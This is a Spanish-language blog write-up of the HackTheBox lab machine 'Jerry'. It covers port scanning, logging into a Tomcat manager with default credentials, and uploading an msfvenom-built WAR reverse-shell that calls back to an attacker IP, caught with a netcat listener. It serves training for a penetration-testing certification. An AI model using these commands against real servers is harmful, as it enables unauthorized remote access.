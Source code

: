 ```yaml
---
layout: post
title: "Write Up Jerry. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Windows,HTB,Web,Upload,Tomcat,Brute-Forcing,Common-Services,SILENTTRINITY,Security-Tools,Mimikatz,Arbitrary-File-Upload,Payload,Java,RCE,Default-Credentials,Vulnerability-Assessment,Information-Leakage,MsfVenom,eJPTv2]
image:
  path: /assets/img/jerry/Captura de pantalla (140).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.10.95 -oA allports
```


![list](/assets/img/jerry/Kali-2022-09-08-22-00-57.png){:.lead width="800" height="100" loading="lazy"}



### Services and Versions


```bash
nmap -p8080 -sV -sC 10.10.10.95 -oN target
```


![list](/assets/img/jerry/Kali-2022-09-08-22-02-30.png){:.lead width="800" height="100" loading="lazy"}


***
## Vulnerability Analysis

### HTTP TCP-80

Ispeccionamos la web.


![list](/assets/img/jerry/Kali-2022-09-08-22-06-39.png){:.lead width="800" height="100" loading="lazy"}


Inspeccionamos las tecnologías de la IP a través de la terminal o vía web, esto lo hacemos con **Wappalyzer** o **WhatWeb**.


![list](/assets/img/jerry/Kali-2022-09-08-22-04-28.png){:.lead width="800" height="100" loading="lazy"}


En Google, podemos buscar claves por defecto según las tecnologías que averigüemos, o simplemente podemos hacer fuerza bruta de **usuario** y **contraseña** utilizando combinaciones de usuario y contraseñas por defecto o también podemos usar **Burp Suite** para interceptar peticiones y obtener más datos, pero en este caso, las credenciales están expuestas `user=tomcat pass=s3cret`.


![list](/assets/img/jerry/Kali-2022-09-08-22-11-20.png){:.lead width="800" height="100" loading="lazy"}


Ingresamos al panel de configuración e inspeccionamos la página. Esto es algo que debemos hacer habitualmente en cada máquina que nos dispongamos a explotar. Observamos la posibilidad de subir **archivos.war**, por lo que podemos aprovechar esa ventaja. Intentamos subir cualquier archivo a modo de prueba, pero no nos deja.


![list](/assets/img/jerry/Kali-2022-09-08-22-13-45.png){:.lead width="800" height="100" loading="lazy"}


***

## Exploitation


Por lo que crearemos un **payload** con **mfsvenom** para cosegir una reverse-shell. 



```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war > shell.war
```


{:.note}
El **LHOST** y **LPORT** deberan ser la IP de tu VPN y un puerto que tu quieras. 


La subimos al servidor y, con el listener a la escucha `nc -lvnp 443`, hacemos clic en el nombre de nuestra carga útil, lo que hará que se conecte a nuestro nc y nos otorgará una reverse-shell.


***
## Privilege escalation


**Jerry** no tiene escalación de privilegios ya que ya somos root, pero podemos buscar la flag. En este caso, las dos flags se encuentran en el mismo archivo en el escritorio.


![list](/assets/img/jerry/Kali-2022-09-08-23-24-48.png){:.lead width="800" height="100" loading="lazy"}


***
```bash
🎉 Felicitaciones ya has comprometido Jerry de HackTheBox 🎉
```
{:.centered}

***

Back to [Beginner-Track](2023-06-29-Beginer-Tack.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eJPTv2](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}